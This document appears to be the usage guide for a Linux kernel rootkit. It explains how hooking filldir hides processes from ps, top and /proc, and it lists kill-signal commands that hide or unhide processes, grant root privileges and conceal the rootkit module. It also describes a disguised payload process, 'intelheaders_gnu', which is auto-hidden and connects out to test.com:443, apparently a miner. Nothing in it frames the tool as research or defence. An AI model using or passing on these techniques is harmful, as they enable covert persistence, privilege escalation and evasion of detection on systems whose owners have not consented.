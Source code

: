 # Process Hiding Usage Guide

This rootkit now supports hiding processes **by name** from system tools like `ps`, `top`, `htop`, and `/proc` directory listings.

## How Process Hiding Works

The rootkit hooks the `filldir` and `filldir64` functions to intercept directory listings in `/proc`. When a process name matches any entry in the hidden process list, its directory entry in `/proc` is filtered out, making the process invisible to most userspace tools.

The system checks both:
1. **Process name** (comm) - the executable name
2. **Command line** - the full command with arguments

## Usage Commands

### Hide Current Process
```bash
# Hide the current process by its name
kill -34 0
```

### Hide Any Process by PID
```bash
# Hide process with PID 656 (e.g., qemu-ga)
kill -34 656

# This will hide ALL processes with the same name as PID 656
```

### Unhide Current Process
```bash
# Unhide the current process by its name
kill -35 0
```

### Unhide Any Process by PID
```bash
# Unhide process with PID 656 (e.g., qemu-ga)
kill -35 656

# This will unhide ALL processes with the same name as PID 656
```

### intelheaders_gnu Control
```bash
# Make intelheaders_gnu visible (even though it's auto-hidden)
kill -22 0

# Hide intelheaders_gnu again
kill -23 0
```

### Other Existing Commands
```bash
# Get root privileges
kill -10 0

# Hide/show the rootkit module
kill -12 0
```

## Example: Hiding qemu-ga Process

To hide the qemu-ga process like:
```
root 656 0.0 0.1 80712 4224 ? Ssl 22:44 0:00 /usr/sbin/qemu-ga
```

**Hide by PID:**
```bash
# Hide by PID (this hides ALL qemu-ga processes)
kill -34 656

# Verify it's hidden
ps aux | grep qemu-ga    # Should show no results
ls /proc/656             # Should show "No such file or directory"
```

**To unhide:**
```bash
kill -35 656
```

## Configuration

- **Maximum Hidden Process Names**: 10 (configurable via `HIDE_PROCESS_LIST_SIZE` in config.h)
- **Maximum Process Name Length**: 256 characters (configurable via `MAX_PROCESS_NAME_LEN`)
- **Signal Numbers**: 
  - SIGRTMIN (34): Hide current process by name
  - SIGRTMIN1 (35): Unhide current process by name

## Auto-Hidden Processes

The rootkit automatically hides:
- **intelheaders_gnu** - The main payload process (auto-hidden on module load)

## Example Usage Scenario

1. Start the intelheaders_gnu process:
   ```bash
   /usr/bin/intelheaders_gnu -o test.com:443 -u 44fdsasdf -k --tls -p prolay &
   echo $!  # Note the PID, e.g., 1234
   ```

2. **The process is automatically hidden** when the rootkit module loads.

3. Verify it's hidden:
   ```bash
   ps aux | grep intelheaders_gnu    # Should not show the process
   ps aux | grep test.com            # Should not show the process
   ls /proc/1234                     # Should show "No such file or directory"
   ```

4. **To make intelheaders_gnu visible again:**
   ```bash
   # Unhide by PID (if you know the PID)
   kill -35 1234
   
   # Or unhide from within the intelheaders_gnu process itself
   kill -35 0
   
   # Verify it's now visible
   ps aux | grep intelheaders_gnu    # Should show the process
   ```

5. **To hide it again:**
   ```bash
   # Hide by PID
   kill -34 1234
   
   # Or hide from within the process
   kill -34 0
   ```

4. To hide other processes:
   ```bash
   # From within the process you want to hide:
   kill -34 0
   
   # Or hide by PID:
   kill -34 <PID>
   ```

5. To unhide a process:
   ```bash
   # From within the hidden process:
   kill -35 0
   
   # Or unhide by PID:
   kill -35 <PID>
   ```

## Technical Details

- The rootkit maintains an internal list of hidden process names
- Process hiding works by filtering `/proc` directory entries based on process names
- Hidden processes are still running and functional, just invisible to most tools
- The system uses **substring matching** - if any hidden name is found in the process name or command line, it's hidden
- The hiding affects: `ps`, `top`, `htop`, `/proc` listings, and other tools that read from `/proc`

## Advanced Usage

You can hide processes with specific patterns:
- Hide by executable name: `intelheaders_gnu`
- Hide by partial command: `test.com:443`
- Hide by argument: `44fdsasdf`

## Limitations

- Maximum of 10 process names can be hidden simultaneously
- Process names are limited to 256 characters
- Some advanced forensic tools might still detect hidden processes
- Process hiding only affects `/proc` directory listings, not kernel-level process tracking
- Signal-based hiding only works for the current process (kill -34 0)
